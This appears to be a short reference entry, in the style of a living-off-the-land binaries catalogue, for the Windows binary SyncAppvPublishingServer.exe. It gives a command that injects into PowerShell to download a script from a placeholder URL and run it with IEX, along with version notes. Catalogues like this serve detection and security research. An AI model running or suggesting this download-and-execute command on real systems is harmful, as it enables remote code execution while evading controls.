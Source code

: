 ## SyncAppvPublishingServer.exe

* Functions: Execute

```
SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
```

Acknowledgements:
* Nick Landers - @monoxgas

Code sample:
* 

Resources:
* https://twitter.com/monoxgas/status/895045566090010624

Full path:
```
C:\Windows\System32\SyncAppvPublishingServer.exe
```

Notes:
Command injection into PowerShell
Might have been fixed in newest version of Windows 10.
(Works as of 10.0.16299.371)

 
